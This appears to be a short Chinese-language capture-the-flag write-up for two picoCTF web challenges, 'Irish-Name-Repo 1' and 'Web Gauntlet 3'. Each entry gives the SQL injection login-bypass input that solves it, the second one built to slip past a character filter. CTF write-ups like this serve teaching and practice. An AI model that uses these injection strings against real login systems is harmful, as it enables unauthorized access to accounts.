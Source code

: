    ```

## Irish-Name-Repo 1

Description：There is a website running at https://jupiter.challenges.picoctf.org/problem/39720/ (link) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

思路：一个 SQL 注入，名字写 `a' or 1=1 --`


## Web Gauntlet 3

Description：Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:24143/ Filter: http://mercury.picoctf.net:24143/filter.php

思路：SQL 注入漏洞，最终的 Username: `adm' || trim('in'`, Password:`) || '`